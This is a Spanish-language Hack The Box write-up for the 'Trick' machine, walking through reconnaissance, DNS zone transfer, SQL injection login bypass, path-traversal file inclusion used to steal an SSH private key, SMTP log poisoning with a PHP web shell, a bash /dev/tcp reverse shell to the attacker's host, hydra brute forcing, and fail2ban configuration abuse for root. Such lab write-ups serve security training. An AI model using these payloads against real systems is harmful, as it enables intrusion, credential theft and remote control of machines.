# Trick

| Plataforma | Dificultad | Sistema Operativo |
|------------|------------|-------------------|
| Hack The Box | ⭐⭐⭐⭐☆ | Linux |

---

# 📋 Información

- **IP:** `10.129.36.29`
- **Objetivo:** Obtener acceso y escalar privilegios hasta `root`.

---

# 🔍 Reconocimiento

## Descubrimiento de puertos

Siempre hay que empezar escaneando los puertos de la máquina víctima

```bash
nmap -Pn -p- --min-rate 5000 -sS -n -vvv <IP> -oN allPorts
```

### Captura



---

## Enumeración de servicios

```bash
nmap -sCV -p<PUERTOS> <IP> -oN services
```
```text
Tenemos activos los siguientes puertos:
- 22: ssh
- 80: http
- 53: DNS
- 25: smtp
```



---

# 🌐 Enumeración Web

Vemos que en la web solo hay un campo para introducir el email, aquí no hay nada interesante



## Dominio

Recordamos que tenemos abierto el puerto 53, con ello vamos a intentar hacer un ataque de transferencia de zona que consistirá en la busqueda de algun dominio expuesto

```bash
dig @<IP> -x <IP>
```

Vemos que el registro PTR nos ha devuelto un dominio llamado trick.htb



Vamos a añadirlo al /etc/hosts de nuestra máquina




Ahora hacemos una transferencia de zona para ver si hay algun subdominio

```bash
dig @<IP> axfr <DOMAIN>
```
Conseguimos un subdominio llamado preprod-payroll.trick.htb que también vamos a añadir al /etc/hosts



# 🌐 Enumeración Web 2

Con el dominio conseguido, probamos en el navegador a ver si conseguimos que cambie la web



En este panel vamos a probar credenciales típicas como admin:admin admin:password user:user etc... Pero no conseguiremos el acceso.
Vamos a probar una inyeccion sql típica

```sql
or1=1
'or'1'='1
'or'1'='1--
'or'1'='1-- -
admin'or1=1
admin'or1=1-- -
admin'or1=1--
admin'or'1'='1
```
Probando tipicas conseguimos acceso con el 'or'1'='1



Una vez dentro podemos ver que existe el usuario Enemigoss, un empleado que se llama john y poco mas.

---
# Enumeración de subdominios

Como no encontramos nada, vamos a enumerar subdominios de la parte de preproduccion
Para ello vamos a necesitar la herramienta ffuf y el directorio de diccionarios llamado [seclists](https://github.com/danielmiessler/seclists)

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host: preprod-FUZZ.trick.htb' -u http://trick.htb -c --fs 5480
```
Vemos que se nos muestran dos subdominios, uno que es el que ya descubrimos y otro llamado marketing que es nuevo.
Lo añadiremos al etc/host



# 🌐 Enumeración web 3

El subdominio contiene una web que si exploramos vemos una ruta que está contemplada de una manera muy extraña
Pues hace una llamada a un service.html de esta forma http://preprod-marketing.trick.htb/index.php?page=services.html en vez de esta http://preprod-marketing.trick.htb/services.html.



Esto puede significar que hay un LFI

# 🎯 Acceso inicial

## Vulnerabilidad

LFI (Local File Inclusion) es una vulnerabilidad que permite a un atacante incluir y, en algunos casos, ejecutar archivos locales del servidor mediante la manipulación de parámetros de entrada.

Vamos a comprobarla intentando leer el /etc/passwd de la máquina víctima.

```bash
http://preprod-marketing.trick.htb/index.php?page=/etc/passwd
```

En este caso no nos reporta nada



Vamos a probar unas técnicas de evasión. Para ello le añadiremos ....//....//....//....//....//....//etc/passwd

```bash
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//etc/passwd
```
Y en este caso hemos conseguido leer el archivo /etc/passwd.
Ahora lo que necesitamos es ejecutar remotamente comandos o ganar directamente acceso al sistema.
Para ello intentaremos robar la clave id_rsa del usuario michael que hemos visto en el archivo /etc/passwd

```bash
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//home/michael/.ssh/id_rsa
```
La vemos pero está desordenada, para ello hacemos un view-source de la url de la siguiente forma

```bash
view-source:http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//home/michael/.ssh/id_rsa
```
Vemos que podemos acceder a ella. Nos la copiaremos en nuestro sistema



Ahora le damos permisos de ejecución

```bash
chmod 600 id_rsa
```
Y la utilizamos para ganar acceso al sistema como el usuario michael

```bash
ssh -i id_rsa michael@<IP>
```



---
# Intrusión alternativa

Hay otra forma de conseguir la ejecución remota de comandos sin la id_rsa.
Aprovechando que tenemos el puerto 25 smtp abierto, vamos a conectarnos a el a traves de telnet.

```bash
telnet <IP> <PUERTO>
```
El ataque va a consistir en enviarle un mail al usuario michael con un payload que nos va a permitir ejecutar comandos a traves del LFI

```txt
-MAIL FROM: usuario cualquiera
-RCPT TO: usuario en el que tengamos el LFI
-DATA
-`<?php system($_GET['cmd']); ?>`
-.
-QUIT
-Tenemos que cerrar el DATA con un .
```


Ahora vamos al navegador y a la siguiente ruta

```bash
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//var/mail/michael&cmd=id
```
Tenemos que concatenar el &cmd que es el parametro que le hemos puesto al payload en php.
A priori no vemos nada pero si hacemos un view_source en la url veremos el comando ejecutado correctamente

```bash
view-source:http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//var/mail/michael&cmd=id
```


Ya con esto nos montamos una reverse shell a nuestra máquina host.
Primero nos ponemos en escucha por el puerto 4444

```bash
nc -nlvp 4444
```
 y ahora colocamos el siguiente payload en la url

```bash
bash -c "bash -i >%26 /dev/tcp/<IP_HOST>/4444 0>%261"
```

```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//var/mail/michael&cmd=bash -c "bash -i >%26 /dev/tcp/<IP_HOST>/4444 0>%261"
```



Ya por ultimo haremos un tratamiento de la tty para que la consola no de fallos 

```bash
script -c bash /dev/null
```
Hacemos un ctrl + z para dejarlo en segundo plano

```bash
stty raw -echo ; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```
Ya con esto tenemos acceso al sistema de dos formas diferentes como el usuario michael

---

# 🔎 Enumeración interna

## Usuario actual

Hacemos un id para ver a que grupo pertenece michael

```bash
id
```
Y pertenece al grupo michael y security.

Vamos a hacer un sudo -l para ver que permisos tenemos asignados.

```bash
michael@trick:~/Desktop$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
Vemos que podemos reiniciar como root el servicio fail2ban

### 🛡️ fail2ban
Fail2ban es una herramienta de seguridad para servidores Linux que ayuda a proteger tu servidor contra ataques de fuerza bruta. Funciona monitoreando los registros de varios servicios, como SSH, FTP, Apache, entre otros, en busca de intentos de inicio de sesión fallidos. Cuando detecta un número predefinido de intentos fallidos desde la misma dirección IP, bloquea temporalmente esa 
dirección IP, ya que considera que se están ataques de fuerza bruta. De esta manera dificulta que un atacante continúe con sus intentos de acceso no autorizado.

Vamos a ver si tenemos algun tipo de permisos de escritura en los archivos de configuración del servicio.

Si echamos un vistazo a la ruta /etc/fail2ban veremos que tenemos permisos de escritura en el directorio action.d gracias a que pertenecemos al grupo security.

- - -
# 🚀 Escalada de privilegios

El ataque va a consistir en cambiar el archivo de configuración que se encargue de ejecutar una acción cuando detecte fuerza bruta y colocarle un comando para escalar privilegios

Si investigamos la herramienta encontamos que el archivo que se encarga de eso es el iptables-multiport.conf

Nos lo copiaremos al directorio /tmp

```bash
cp /etc/fail2ban/action.d/iptables-multiport.conf /tmp
```

Ahora lo vamos a editar.

La parte que se encarga de las acciones y bloqueos es el actionban.
Ahi le vamos a poner el comando que va a asignar a la bash permisos SUID para que podamos ejecutar una como root



Ahora solo nos queda moverlo al directorio action.d

```bash
mv iptables-multiport.conf /etc/fail2ban/action.d/
```
Reiniciamos el servicio

```bash
/etc/init.d/fail2ban restart
```
Y ahora vamos a intentar iniciarnos por ssh a root de forma fallida muchas veces

```
ssh root@<IP>
```

Esto se puede automatizar con hydra

```bash
hydra -u root -P /usr/share/wordlists/rockyou.txt <IP> ssh
```

Cuando lo hagamos un rato, hacemos un ls -l de la bash para ver si tiene los permisos suid.
Vemos que lo tiene asi que terminamos ejecutando una bash con altos privilegios

```bash
bash -p
```



---
